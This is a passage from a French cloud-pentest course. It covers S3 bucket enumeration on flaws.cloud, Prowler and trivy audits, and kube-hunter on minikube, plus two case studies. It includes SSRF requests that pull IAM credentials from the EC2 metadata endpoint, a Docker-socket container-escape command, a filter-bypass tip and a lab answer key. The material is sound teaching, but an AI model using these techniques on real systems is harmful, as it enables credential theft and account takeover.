| Config réseau (security groups, routes) | — | ✅ |
| Politiques d'accès (IAM, buckets) | — | ✅ |
| Données et secrets | — | ✅ |

### Schéma 3 — Flux SSRF vers les métadonnées



### Schéma 4 — Architecture Kubernetes



**Attaques** : si l'API server est exposé et que le RBAC est laxiste, on parle à `:6443` directement ; si un pod a un RoleBinding `list secrets`, on lit les secrets ; si un pod est privilégié, on s'échappe vers le node.

### Schéma 5 — IAM : users → groups → policies → resources



### Schéma 6 — Tableau d'équivalences AWS / Azure / GCP

| Concept | AWS | Azure | GCP |
| ------- | --- | ----- | --- |
| Réseau privé | VPC | Virtual Network | VPC |
| Machine virtuelle | EC2 | Virtual Machine | Compute Engine |
| Stockage objet | S3 | Blob Storage | Cloud Storage |
| Identités et accès | IAM | Entra ID + Azure RBAC | Cloud IAM |
| Serverless | Lambda | Functions | Cloud Functions |
| Base managée | RDS | Azure SQL | Cloud SQL |
| Kubernetes managé | EKS | AKS | GKE |
| Journal d'API | CloudTrail | Activity Log | Cloud Audit Logs |
| Détection de menaces | GuardDuty | Defender for Cloud | Security Command Center |
| Gestion des secrets | Secrets Manager / SSM | Key Vault | Secret Manager / KMS |

### Schéma 7 — Container escape (ASCII)

```
                    HÔTE LINUX (le vrai système)
   +--------------------------------------------------------------+
   |  /etc, /home, kernel, processus, docker daemon               |
   |                                                              |
   |   +------------------------------------------------------+   |
   |   |  CONTENEUR (bac à sable)                            |   |
   |   |  namespaces isolés + cgroups + seccomp              |   |
   |   |                                                    |   |
   |   |   +--------------------------------------------+   |   |
   |   |   |  processus de l'application (RCE obtenue)  |   |   |
   |   |   +--------------------------------------------+   |   |
   |   |                                                    |   |
   |   +-------------+--------------------------------------+   |
   |                 |  /var/run/docker.sock  <-- monté ?       |
   |                 |  --privileged ? capability SYS_ADMIN ?   |
   |                 v                                          |
   |   [si oui : docker run -v /:/host -> chroot /host]         |
   +--------------------------------------------------------------+
```

**Lecture** : le conteneur est isolé par des mécanismes du noyau. Si le socket Docker est monté dedans (ou si le conteneur est privilégié), l'attaquant peut créer un conteneur qui monte le disque de l'hôte (`-v /:/host`) et le lire (`chroot /host`). L'isolation est contournée.

---

## Démonstration

> ⚠️ **Légal** — Les 5 démonstrations ci-dessous se déroulent **exclusivement** sur des labos dédiés : le bucket `flaws.cloud` (labo public de Scott Piper), un compte AWS sandbox pour Prowler, un cluster **minikube local**, et des images Docker locales. Ne jamais exécuter ces commandes sur un environnement de production, un compte professionnel ou une ressource que tu ne possèdes pas.

---

### Démo 1 — Énumérer les buckets S3 et détecter un bucket public (Flaws.cloud niveau 1)

**Contexte.** Tu débutes un pentest cloud autorisé sur le labo public `flaws.cloud`. La page web affiche une image hébergée sur un bucket S3. Tu soupçonnes une misconfiguration de stockage.

**Objectif.** Découvrir le bucket, vérifier s'il est listable et lisible anonymement, et y trouver un indice pour la suite.

**Commandes et explication ligne par ligne.**

```bash
# 1. Voir la page d'accueil du labo : les URLs des ressources révèlent les buckets
curl -s http://flaws.cloud/ | head -50

# 2. Lister les buckets S3 de ton propre profil (utile en pentest de compte)
aws s3 ls

# 3. Tenter un listage anonyme du bucket du labo (sans aucune clé AWS)
aws s3 ls s3://flaws.cloud/ --no-sign-request

# 4. Vérifier officiellement l'état "public" du bucket
aws s3api get-bucket-policy-status --bucket flaws.cloud --no-sign-request

# 5. Lire un objet sensible découvert lors du listage
curl -s http://flaws.cloud/secret-xxx.html
```

**Explication.**
1. `curl` : on récupère le HTML ; les URLs des images contiennent le nom du bucket (`http://flaws.cloud/...` renvoie en fait vers le bucket S3). On découvre ainsi le nom de la cible.
2. `aws s3 ls` : liste les buckets **de ton compte** — en vrai pentest, c'est la première carte du terrain. (Sur ce labo public, tu n'as pas de compte, c'est une étape de méthodologie.)
3. `--no-sign-request` : **la commande clé**. Elle envoie la requête **sans signature** : si le bucket est public, le serveur accepte. Tu obtiens la liste des objets (`hint1.html`, `hint2.html`, `hint3.html`, `secret-...html`, `index.html`, `logo.png`).
4. `get-bucket-policy-status` : confirme officiellement que le bucket est « public » (champ `IsPublic: true`). C'est la preuve technique à citer dans un rapport.
5. `curl` sur l'objet `secret-...html` : le contenu t'oriente vers le niveau 2 (une nouvelle URL). Le « flag » de ce niveau est l'URL du niveau suivant.

**Résultat attendu.** Le bucket `flaws.cloud` est listable anonymement : un `IsPublic: true` et l'objet secret contenant l'URL du niveau 2 (`level2-...flaws.cloud`).

**Analyse.** C'est une **misconfiguration S3 typique** : le propriétaire (Scott Piper) a volontairement laissé la bucket policy ou l'ACL publique. Sans `--no-sign-request`, jamais tu ne l'aurais vu : les requêtes anonymes sont la seule preuve. C'est la technique n°1 du pentest cloud.

**Erreurs fréquentes.**
- Lancer `aws s3 ls` **sans** le nom du bucket, pensant voir les buckets d'autrui → AWS ne liste que **tes** buckets ; pour les autres, il faut le nom du bucket (découvert via la page web, les DNS, les certificats, les outils de subdomain enum).
- Oublier `--no-sign-request` → tu n'obtiens que les accès de ton compte, pas l'accès anonyme.
- Confondre « lister » (ListBucket) et « lire » (GetObject) : les deux sont des permissions distinctes ; tester les deux.

**Correction.**
```bash
# La bonne séquence en pentest : découverte du nom → listage anonyme → lecture
curl -s http://flaws.cloud/ | grep -oE 'https?://[^"]+'
aws s3 ls s3://flaws.cloud/ --no-sign-request
aws s3api get-bucket-policy-status --bucket flaws.cloud --no-sign-request
curl -s http://flaws.cloud/secret-xxx.html
```

---

### Démo 2 — Scanner la posture avec Prowler et interpréter le rapport

**Contexte.** Tu as un compte AWS **sandbox** (tes propres ressources, ou un labo CloudGoat) et des credentials de lecture. Avant d'attaquer, tu veux connaître toute la posture : quelles misconfigurations, quelles expositions.

**Objectif.** Lancer un audit complet Prowler, isoler les résultats critiques, et comprendre un « FAIL » dans le rapport.

**Commandes et explication.**

```bash
# 1. Installer Prowler (Python) ou utiliser le conteneur officiel
pip install prowler

# 2. Vérifier l'identité utilisée (toujours la première étape)
aws sts get-caller-identity

# 3. Lancer l'audit complet, sortie HTML + JSON dans /tmp/rapport
prowler aws --profile labo -M html,json -o /tmp/rapport

# 4. Lancer uniquement les checks les plus critiques (gain de temps)
prowler aws --profile labo --severity critical -M html -o /tmp/rapport

# 5. Cibler une catégorie précise (S3 ici)
prowler aws --profile labo --categories s3 -M html -o /tmp/rapport

# 6. Lister les FAIL de niveau critique en JSON pour le rapport
cat /tmp/rapport/*.json | jq -r '.[] | select(.status=="FAIL" and .severity=="critical") | .check_id'
```

**Explication.**
1. `pip install prowler` : installation officielle ; alternative `docker run --rm -t -v ~/.aws:/root/.aws aquasec/prowler aws`.
2. `aws sts get-caller-identity` : confirmer l'ARN (identité) que l'audit va utiliser — un audit avec le mauvais profil ne verra rien.
3. `-M html,json` : les **formats de sortie** (module de sortie) ; `-o` le dossier. Prowler lance alors des centaines de checks CIS/AWS Foundations.
4. `--severity critical` : ne garde que les résultats les plus graves (S3 public, IAM admin…), parfait pour un premier passage.
5. `--categories s3` : ne lancer que les checks de la catégorie stockage.
6. `jq -r` : filtre le JSON pour lister les identifiants de checks en FAIL critique.

**Résultat attendu.** Le rapport HTML s'ouvre dans un navigateur : un tableau avec des centaines de lignes PASS/FAIL/INFO, classées par catégorie (s3, iam, ec2, cloudtrail, …). Exemple de FAIL critique : `s3_bucket_public_access` avec l'ARN du bucket concerné et une explication. Dans le labo CloudGoat, tu devrais voir des FAIL sur les politiques IAM et les buckets.

**Analyse.** Chaque FAIL correspond à une ligne du référentiel CIS AWS Foundations (le standard de durcissement). Un FAIL `s3_bucket_public_access` = le bucket est accessible publiquement (vérifiable avec `--no-sign-request`). Un FAIL `iam_policy_allows_privilege_escalation` = la politique permet une escalade (exploitable avec Pacu). Le rapport est ta **carte des vulnérabilités** : il ne faut pas « tout corriger » mais trier par sévérité et exploitabilité.

**Erreurs fréquentes.**
- Utiliser le **mauvais profil** (`--profile` manquant) → l'audit porte sur le compte par défaut, pas la cible.
- Lancer l'audit **sur un compte de production** sans autorisation → cadre légal violé (interdit, ce cours ne le permet jamais).
- Ignorer le champ `status_extended` du JSON : c'est lui qui explique **pourquoi** le check échoue et **comment** corriger.
- Confondre `FAIL` (la config ne respecte pas le référentiel) et « vulnérabilité exploitée » : un FAIL n'est pas une preuve d'exploitation, c'est une suspicion à confirmer.

**Correction.**
```bash
# Auditer en lecture seule, cibler les critiques, puis confirmer manuellement
prowler aws --profile labo --severity critical -M html,json -o /tmp/rapport
# Confirmation manuelle d'un FAIL S3 public trouvé par Prowler :
aws s3api get-bucket-policy-status --bucket <NOM_DU_BUCKET> --no-sign-request
```

---

### Démo 3 — Exploiter un SSRF vers les métadonnées (labo CloudGoat `ec2_ssrf` ou app locale)

**Contexte.** Sur ton labo (CloudGoat `ec2_ssrf`, ou une app web vulnérable que tu as déployée toi-même dans ta sandbox), l'application accepte une URL et la récupère pour toi (fonctionnalité « import d'image », « proxy », « vérification d'URL »). C'est un **SSRF** (tu l'as vu aux niveaux 4-5).

**Objectif.** Détourner le SSRF vers l'endpoint de métadonnées `169.254.169.254`, récupérer les credentials IAM temporaires de l'instance, et mesurer leur portée.

**Commandes et explication.**

```bash
# 1. Confirmer que l'app est un SSRF : elle récupère une URL qu'on choisit
curl "http://labo-web/proxy?url=http://exemple.com" | head

# 2. Demander les métadonnées AWS de l'instance qui héberge l'app
curl "http://labo-web/proxy?url=http://169.254.169.254/latest/meta-data/"

# 3. Explorer le chemin iam : quel role est attaché à l'instance ?
curl "http://labo-web/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/"

# 4. Récupérer les credentials temporaires du role (AccessKeyId, SecretAccessKey, Token)
curl "http://labo-web/proxy?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/<NOM_DU_ROLE>"

# 5. Charger ces credentials dans l'environnement et tester
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=...
export AWS_SESSION_TOKEN=...
aws sts get-caller-identity

# 6. Évaluer la portée : que peut faire ce role ?
aws s3 ls
```

**Explication.**
1. Si l'app renvoie le contenu d'une URL arbitraire, c'est un SSRF réussi : l'app fait la requête **à ta place**, avec les droits du serveur.
2. L'app contacte l'endpoint de métadonnées : **c'est LA requête qui change tout**. `latest/meta-data/` est un chemin d'API d'IMDS (Instance Metadata Service).
3. Le sous-chemin `iam/security-credentials/` liste les roles de l'instance.
4. Le sous-chemin complet retourne un **JSON** contenant des credentials **temporaires** (générés par STS) : `AccessKeyId`, `SecretAccessKey`, `Token`.
5. On exporte ces trois valeurs dans l'environnement : les outils AWS CLI les utiliseront à la place de nos propres clés.
6. `aws sts get-caller-identity` confirme : « tu es » maintenant le role de l'instance. `aws s3 ls` teste ce que ce role peut lire.

**Résultat attendu.** L'identité devient `arn:aws:iam::<compte>:role/...` et l'accès aux services autorisés (souvent S3) fonctionne. Dans le scénario CloudGoat `ec2_ssrf`, le role permet de lire un bucket contenant le « flag » du scénario.

**Analyse.** Le SSRF seul ne valait « rien » ; la chaîne complète (SSRF → métadonnées → credentials → S3) fait de la faille une **prise de contrôle de compte**. La gravité dépend du **role de l'instance** : si le role a `s3:*` sur tout, c'est critique ; si le role est minimaliste, l'impact est limité. C'est pourquoi le **least privilege** est si important : il plafonne l'impact d'un SSRF.

**Erreurs fréquentes.**
- Oublier l'**encodage URL** des caractères spéciaux dans le paramètre `url` (les `/` et `:` sont souvent refusés par le filtre mais `%2F`, `%3A` passent).
- Croire que l'endpoint est « magique » : `169.254.169.254` n'est accessible **que depuis l'instance** (c'est une adresse de lien local). Le SSRF est le seul moyen d'y accéder depuis l'extérieur.
- Tester sur un serveur qui tourne **dans un conteneur ou hors AWS** : le SSRF vers les métadonnées ne répond pas (pas d'instance EC2 derrière) — dans ce cas, le labo te fournit l'environnement adéquat.
- Ne pas tester **IMDSv2** : si l'instance exige un jeton, le GET direct échoue (voir plus bas).

**Correction.** Si l'instance est protégée par **IMDSv2**, la requête directe échoue. La méthode de labo :

```bash
# IMDSv2 : deux requêtes — obtenir un jeton, puis l'utiliser (si l'app SSRF permet des PUT et des en-têtes)
curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"
curl -H "X-aws-ec2-metadata-token: <TOKEN>" http://169.254.169.254/latest/meta-data/
```

Si l'app SSRF ne permet ni PUT ni en-têtes custom, IMDSv2 bloque l'exploitation : on le **documente** comme contrôle efficace dans le rapport.

---

### Démo 4 — Auditer Kubernetes avec kube-hunter et kubectl (cluster minikube local)

**Contexte.** Tu viens de démarrer un cluster **minikube** local (tes propres ressources) pour t'entraîner. Tu veux auditer sa posture : API server exposé, RBAC, secrets.

**Objectif.** Lancer kube-hunter (scan de vulnérabilités K8s), puis vérifier manuellement le RBAC et les secrets avec kubectl.

**Commandes et explication.**

```bash
# 1. Démarrer un cluster local (tes ressources, aucun risque)
minikube start

# 2. Vérifier l'accès : contexte courant et nœuds
kubectl config current-context
kubectl get nodes

# 3. Scanner localement avec kube-hunter (via le conteneur officiel ou pip)
kube-hunter
# ou : docker run -it --rm aquasec/kube-hunter

# 4. Lister mes propres permissions RBAC
kubectl auth can-i --list

# 5. Chercher les secrets accessibles
kubectl get secrets -A

# 6. Créer un cas volontairement permissif pour tester : un ServiceAccount + binding cluster-admin
kubectl create serviceaccount auditeur
kubectl create clusterrolebinding auditeur-admin --clusterrole=cluster-admin --serviceaccount=default:auditeur
kubectl create token auditeur   # récupère le jeton du SA
```

**Explication.**
1. `minikube start` : déploie un vrai cluster (API server, nodes, pods) **en local**, sur ta machine. C'est le terrain d'entraînement parfait.
2. `kubectl config current-context` : quel cluster ton `kubectl` vise ; `kubectl get nodes` : les machines du cluster.
3. `kube-hunter` sans argument **scanne le cluster local** (il détecte le contexte courant). Il teste l'API server (accès anonyme, versions vulnérables), les endpoints exposés, le RBAC.
4. `kubectl auth can-i --list` : liste ce que **ton utilisateur kubectl** peut faire. Si tu vois `cluster-admin`, le RBAC est laxiste.
5. `kubectl get secrets -A` : qui peut voir les secrets ? Si ton user peut, un pod compromis le pourra aussi.
6. On **crée** une mauvaise config volontaire (un ServiceAccount `auditeur` lié à `cluster-admin`) pour voir comment l'exploiter : le jeton du SA (`kubectl create token auditeur`) permet d'appeler l'API server en tant qu'administrateur du cluster.

**Résultat attendu.** `kube-hunter` affiche des **killing** (problèmes critiques) et **weaknesses** (faiblesses) : par exemple « Anonymous requests to kube-apiserver » ou des recommandations RBAC. `kubectl auth can-i --list` montre tes droits. Après le binding, le jeton SA donne un accès complet.

**Analyse.** Le cluster « par défaut » a un bon RBAC, mais **un seul binding permissif** (cluster-admin à un ServiceAccount) suffit à tout casser : n'importe quel pod utilisant ce SA peut lire/écrire tous les secrets. C'est exactement la faille des attaques réelles : non pas la technologie, mais **une mauvaise liaison de rôles**.

**Erreurs fréquentes.**
- Scanner un cluster **de production** ou d'une entreprise avec kube-hunter → interdit sans autorisation écrite ; ici tout est local.
- Confondre `Role` (namespace) et `ClusterRole` (tout le cluster), `RoleBinding` vs `ClusterRoleBinding` : les permissions ne portent pas sur le même périmètre.
- Oublier que les **secrets sont en base64, pas chiffrés** : `kubectl get secret X -o jsonpath='{.data}'` puis `base64 -d`.
- Croire que minikube est un cluster « factice » : c'est un vrai cluster, avec un vrai API server, parfait pour apprendre.

**Correction.**

```bash
# Nettoyer le labo après test (toujours)
kubectl delete clusterrolebinding auditeur-admin
kubectl delete serviceaccount auditeur
minikube delete
```

---

### Démo 5 — Scanner des images Docker avec trivy et corriger une vulnérabilité

**Contexte.** Ton CI/CD construit l'image `monapp:1.0` à partir d'une image de base Ubuntu non épinglée. On veut savoir si l'image contient des CVE avant d'aller en production.

**Objectif.** Scanner l'image avec trivy, identifier les vulnérabilités critiques, corriger (mise à jour de la base), et revérifier.

**Commandes et explication.**

```bash
# 1. Scanner l'image (rapport complet par sévérité et paquet)
trivy image monapp:1.0

# 2. Cibler les sévérités critiques et hautes, sortir en code d'erreur (pour CI)
trivy image --severity CRITICAL,HIGH --exit-code 1 monapp:1.0

# 3. Corriger : mettre à jour la base dans le Dockerfile
# FROM ubuntu:20.04  →  FROM ubuntu:20.04 (avec apt-get upgrade) ou image plus récente
docker build -t monapp:1.1 .

# 4. Re-scanner l'image corrigée
trivy image --severity CRITICAL,HIGH --exit-code 1 monapp:1.1

# 5. Bonus : générer le SBOM de l'image pour la traçabilité
syft monapp:1.1 -o cyclonedx-json > sbom.json
```

**Explication.**
1. `trivy image` : télécharge l'image, construit sa liste de paquets (comme un SBOM), et la compare à sa base de CVE (NVD, GitHub, etc.). Le rapport liste chaque CVE avec sa sévérité, le paquet affecté et la version corrigée.
2. `--severity CRITICAL,HIGH` : filtre ; `--exit-code 1` : sort en erreur si au moins une CVE correspond — c'est LA commande pour bloquer un build en CI/CD.
3. La correction : soit une base à jour (`FROM ubuntu:22.04`), soit des `apt-get upgrade` au build. On reconstruit l'image.
4. Le re-scan doit être **propre** (aucune CVE critique/haut) : code de sortie 0.
5. `syft` génère un SBOM standard (CycloneDX) : la preuve formelle des ingrédients, exigée par certains clients.

**Résultat attendu.** Premier scan : plusieurs CVE (ex. HIGH/CRITICAL dans `openssl`, `zlib`, etc.). Après correction : zéro CVE critique, `--exit-code 1` ne déclenche plus, le build passe.

**Analyse.** Une image contient des **dizaines de paquets** ; les images « de base » non maintenues accumulent des CVE. Le scan au build est la **première ligne de défense** de la supply chain : on ne déploie jamais une image connue vulnérable. Attention : `--ignore-unfixed` permet de n'exiger que les CVE **corrigeables** (un bug sans correctif en amont ne peut pas être réglé par nous).

**Erreurs fréquentes.**
- Scanner uniquement « l'image de mon app » sans scanner les **images de base** utilisées par d'autres équipes.
- Ignorer les CVE **unfixable** et penser que tout est corrigeable.
- Scanner après déploiement, au lieu de scanner dans le CI (`--exit-code 1` pour bloquer).
- Utiliser `docker scan` (déprécié chez Docker) au lieu de trivy/grype.

**Correction.**

```bash
# Pipeline CI typique : scan → build → scan final → SBOM
trivy image --severity CRITICAL --exit-code 1 --ignore-unfixed <IMAGE> && \
  docker build -t monapp:1.1 . && \
  trivy image --severity CRITICAL,HIGH --exit-code 1 monapp:1.1 && \
  syft monapp:1.1 -o cyclonedx-json > sbom.json
```

---

## Cas réels

> ⚠️ **Légal** — Les scénarios ci-dessous sont des exercices de réflexion. Ils décrivent des situations que les équipes SOC/pentest rencontrent dans le cadre **autorisé** de leur mission. En dehors d'un mandat écrit, aucune technique ne doit être appliquée à une infrastructure qui n'est pas la tienne.

---

### Cas réel 1 — « Une entreprise découvre un bucket public exposant des données clients »

**Situation.** Tu es cloud security engineer chez une PME. Lundi matin, un chercheur externe signale via la page de divulgation responsable que le bucket `acme-uploads` est lisible anonymement et contient des documents clients (factures, dossiers d'inscription). Personne ne sait depuis quand.

**Démarche méthodique (autorisée : c'est ton entreprise, ta mission).**

**1. Confirmer et documenter l'exposition (sans aller plus loin que la preuve).**

```bash
# Vérifier l'état officiel du bucket
aws s3api get-bucket-policy-status --bucket acme-uploads
# Lire la policy (le "pourquoi" de l'exposition)
aws s3api get-bucket-policy --bucket acme-uploads
# Lire la liste des objets (preuve, sans télécharger de masse)
aws s3 ls s3://acme-uploads/ --no-sign-request
```

**2. Confiner.** On ne répare pas à l'aveugle : on **bloque l'accès public immédiatement**, quel que soit le mécanisme fautif.

```bash
# Block Public Access : coupe tout accès public (priorité absolue)
aws s3api put-public-access-block --bucket acme-uploads \
  --public-access-block-configuration BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true
# Puis retirer la policy fautive et/ou les ACL publiques
aws s3api delete-bucket-policy --bucket acme-uploads
```

**3. Mesurer l'ampleur.** Avec les logs CloudTrail (accès `GetObject` anonymes) et les access logs S3, on reconstitue la timeline : qui a accédé, quand, combien de fois.

```bash
aws cloudtrail lookup-events --lookup-attributes AttributeKey=EventName,AttributeValue=GetObject
```

**4. Analyser la cause racine.** La bucket policy contenait `"Principal": "*"` avec `s3:GetObject` : un développeur avait « ouvert » le bucket pour partager une image publique et avait copié la policy sur le mauvais bucket, sans jamais vérifier. Personne ne scannait la posture : aucun Prowler, aucun Security Hub, aucun contrôle automatique.

**5. Corriger durablement.**
- `Block Public Access` activé par défaut sur **tous** les buckets (via une politique d'organisation/SCP).
- Mise en place d'un **CSPM** (Prowler en CI ou Security Hub) qui alerte sur `s3_bucket_public_access`.
- **Rotation** de tout ce qui aurait pu fuiter (si des clés étaient dans les fichiers), notification aux personnes concernées (obligation RGPD/CNIL : notifier sous 72 h en cas de violation de données personnelles), conservation des preuves.
- Formation des développeurs et règle : jamais de `Principal: "*"` sur un bucket qui n'est pas explicitement un site statique.

**Analyse.** La leçon centrale est le **modèle de responsabilité partagée** : AWS a parfaitement sécurisé l'infrastructure ; la brèche vient d'une **configuration client**. La réponse correcte suit l'ordre : confirmer → bloquer → mesurer → comprendre → corriger → prévenir. Le pire réflexe serait de « supprimer la policy et ne rien dire » : sans timeline ni notification, la conformité (RGPD) est en danger et les récidives garanties.

---

### Cas réel 2 — « Un pentest cloud te donne un compte IAM basique : comment atteindre les données sensibles ? »

**Situation.** Mandat de pentest (autorisation écrite) sur un compte AWS de test qui contient des données de démonstration sensibles (bucket `acme-prive`). On te remet un compte IAM avec les permissions minimales : `ListAllMyBuckets`, `s3:GetObject` sur un seul bucket vide de test, et `iam:ListRoles`. Objectif : atteindre les données du bucket privé.

**Démarche méthodique (dans le périmètre autorisé).**

**1. Qui suis-je ? Que puis-je voir ?**

```bash
aws sts get-caller-identity
aws iam list-roles
aws s3 ls
```

**2. Cartographier les accès (recon).** `aws iam list-roles` révèle un role `app-prod` visible. On liste ses politiques et on regarde ce qu'il peut faire.

```bash
aws iam list-attached-role-policies --role-name app-prod
aws iam get-policy --policy-arn <arn>
aws iam get-policy-version --policy-arn <arn> --version-id v1
```

Le role a `s3:GetObject` sur `arn:aws:s3:::acme-prive/*`. Il faut donc **l'assumer** : vérifier si notre compte peut l'assumer.

**3. Tenter l'assomption de role (technique légitime et documentée).**

```bash
aws sts assume-role --role-arn arn:aws:iam::<compte>:role/app-prod --role-session-name pentest
```

Si ça réussit, on récupère des credentials temporaires pour ce role.

**4. Si l'assomption échoue, chercher d'autres chemins.**
- Escalade : tester nos propres permissions auto-renforçantes avec **Pacu** (`exec iam__privesc_scan`).
- Secrets : chercher une clé dans les variables de Lambda, les paramètres SSM, les buckets publics.
- GitHub : chercher `acme` et `AKIA` dans les dépôts publics (le plus probable : une clé poussée par erreur).
- Métadonnées : si on a une app web dans le périmètre, tester le SSRF vers `169.254.169.254`.

**5. Exploiter le chemin trouvé et prouver l'accès.**

```bash
# Exemple : une clé trouvée sur GitHub (dans le labo autorisé)
export AWS_ACCESS_KEY_ID=AKIA...
export AWS_SECRET_ACCESS_KEY=...
aws sts get-caller-identity   # confirme la nouvelle identité
aws s3 ls s3://acme-prive/    # preuve d'accès aux données sensibles
```

**6. Rédiger le rapport.** Chronologie, preuves (commandes, sorties), cause racine, impact, recommandations : least privilege sur les roles, pas de `AssumeRole` large, scan de secrets, IMDSv2, CSPM.

**Analyse.** La progression « compte basique → données sensibles » suit toujours le même chemin : **identifier ce qu'on peut faire** (recon IAM/S3) → **trouver un chemin** (role assumable, escalade, secret) → **prouver**. Le vrai talent n'est pas d'exploiter la faille finale (souvent une commande), mais de **voir le chemin** : ici, la combinaison « je peux lister les roles + un role a les accès + je peux l'assumer » est la chaîne complète. C'est exactement ce que CloudFox et Pacu automatisent, et ce que les pentesters cloud appellent « le graphe d'attaque ».

---

## Laboratoires

> ⚠️ **Légal** — Les deux TP utilisent uniquement : un labo public (Flaws.cloud, autorisé par son créateur), un cluster local (minikube, tes propres ressources). Aucune commande ne touche un cloud de production ni un compte professionnel.

---

### TP 1 — Flaws.cloud niveau 1 : premier bucket public

**Objectif.** Sur le labo gratuit **Flaws.cloud** (créé par Scott Piper), identifier la misconfiguration S3 du niveau 1, la prouver, et trouver l'indice menant au niveau 2. Tu fais ton premier « pentest cloud » légal.

**Environnement.**
- Un navigateur et un terminal avec **AWS CLI** installée (`aws --version`).
- Aucun compte AWS nécessaire pour ce niveau : on travaille en accès anonyme.
- Cible : `http://flaws.cloud/` (public, dédié à l'entraînement).

**Étapes.**

1. Ouvre `http://flaws.cloud/` dans le navigateur. Observe la page et les URLs des images.
2. Identifie le nom du bucket S3 qui héberge les images (il apparaît dans les URLs).
3. Depuis le terminal, tente le **listage anonyme** du bucket.
4. Examine la liste des objets : repère les objets `hint*.html` et le fichier `secret-*.html`.
5. Ouvre l'objet secret. Son contenu est l'URL du niveau 2.
6. Vérifie l'état « public » du bucket avec la commande officielle.
7. Documente tes commandes et résultats dans ton carnet.

**Indices.**

- Indice 1 : la commande qui liste un bucket S3 est `aws s3 ls s3://NOM`. Pour un accès anonyme, ajoute `--no-sign-request`.
- Indice 2 : si `aws s3 ls` n'affiche rien, vérifie que tu utilises bien `--no-sign-request` et le bon nom de bucket (exactement `flaws.cloud`).
- Indice 3 : le secret du niveau 1 est un **objet** du bucket dont le nom contient `secret`. Après le listage, lis-le avec `curl http://flaws.cloud/NOM_OBJET`.

**Correction.**

```bash
# 1. Voir la page (le nom du bucket apparaît dans les URLs)
curl -s http://flaws.cloud/ | grep -oE 'https?://[^"]+'

# 2. Liste anonyme du bucket
aws s3 ls s3://flaws.cloud/ --no-sign-request
#   2017-03-14 ... hint1.html
#   2017-03-14 ... hint2.html
#   2017-03-14 ... hint3.html
#   2017-03-14 ... index.html
#   2017-03-14 ... logo.png
#   2017-03-14 ... secret-dd02c7c.html

# 3. Preuve officielle de l'accès public
aws s3api get-bucket-policy-status --bucket flaws.cloud --no-sign-request
#   "IsPublic": true

# 4. Lire le secret
curl -s http://flaws.cloud/secret-dd02c7c.html
```

**Explications.** Le niveau 1 est une **misconfiguration d'ACL/policy S3** : le bucket autorise le listage et la lecture anonymes. `--no-sign-request` envoie la requête sans credentials : si elle réussit, la ressource est publique. Le fichier `secret-*.html` contient l'URL du niveau 2 (`http://level2-...flaws.cloud`), qui est le « flag » de ce niveau. Tu viens de reproduire la toute première étape d'un pentest cloud réel : **découverte du bucket → listage anonyme → lecture de l'objet**.

---

### TP 2 — Kubernetes en labo : minikube, kube-hunter, RBAC permissif

